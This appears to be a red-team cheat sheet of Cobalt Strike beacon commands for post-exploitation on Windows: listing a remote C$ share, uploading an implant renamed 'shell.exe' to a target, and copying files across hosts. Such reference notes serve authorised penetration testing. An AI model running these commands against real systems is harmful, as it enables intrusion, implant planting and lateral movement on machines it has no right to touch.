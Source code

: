 # Cobalt Strike

Search Tag(s): #post-exploitation #lateral-movement #cobalt-strike #windows

## 01 - List Files and Directories

```
beacon> ls \\<IP>\C$
```

## 02 - Upload Files

```
beacon> upload /path/to/local/implant.exe (\\<IP>\C$\shell.exe)
```

If that didn't work change directory and then upload it

```
beacon> cd \\<IP>\C$

beacon> upload /path/to/local/implant.exe
```

## 03 - Copy Files Remotely

```
beacon> cp [<drive_letter>:\]path\to\remote\file.txt \\<IP>\C$\copied_file.txt
```